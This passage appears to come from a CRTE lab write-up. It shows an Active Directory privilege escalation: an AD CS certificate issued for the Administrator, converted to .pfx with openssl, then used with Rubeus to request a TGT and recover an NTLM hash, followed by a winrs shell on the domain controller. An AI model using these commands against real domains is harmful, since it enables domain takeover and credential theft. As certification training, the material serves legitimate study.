 ```powershell

[*] CA Response             : The certificate had been issued.
[*] Request ID              : 49

<snip>
```
- We convert the `.pem` to `.pfx` and transfer the later to our machine.
```zsh
┌──(root🔱KaliVM)-[/home/…/Desktop/Training/CRTE/Tools]
└─# openssl pkcs12 -in administrator.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out administrator.pfx
Enter Export Password:
Verifying - Enter Export Password:
```
- We can now use the certificate to request a TGT for `techcorp\Administrator`.
```powershell
PS C:\Auditor> .\Rubeus.exe asktgt /user:techcorp.local\Administrator /certificate:C:\Auditor\Loot\administrator.pfx /password:certpass /nowrap /ptt /getcredentials

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.0

[*] Action: Ask TGT

[*] Using PKINIT with etype rc4_hmac and subject: CN=studentuser57, CN=Users, DC=us, DC=techcorp, DC=local
[*] Building AS-REQ (w/ PKINIT preauth) for: 'us\Administrator'
[*] Using domain controller: 192.168.1.2:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

<snip>

[*] Getting credentials using U2U

  CredentialInfo         :
    Version              : 0
    EncryptionType       : rc4_hmac
    CredentialData       :
      CredentialCount    : 1
       NTLM              : BC4CF9B751D196C4B6E1A2BA923EF33F
```
- We can now access `TECHCORP-DC`.
```powershell
PS C:\Auditor> winrs -r:techcorp-dc.techcorp.local powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\Administrator.US> hostname;whoami
hostname;whoami
Techcorp-DC
techcorp\administrator
```
# 2. Abusing Parent-Child Trust Relationship
- The first way that allows us to elevate our privileges from DA to EA is abusing the Bidirectional Trust Relationship between the Parent and the Child Domains.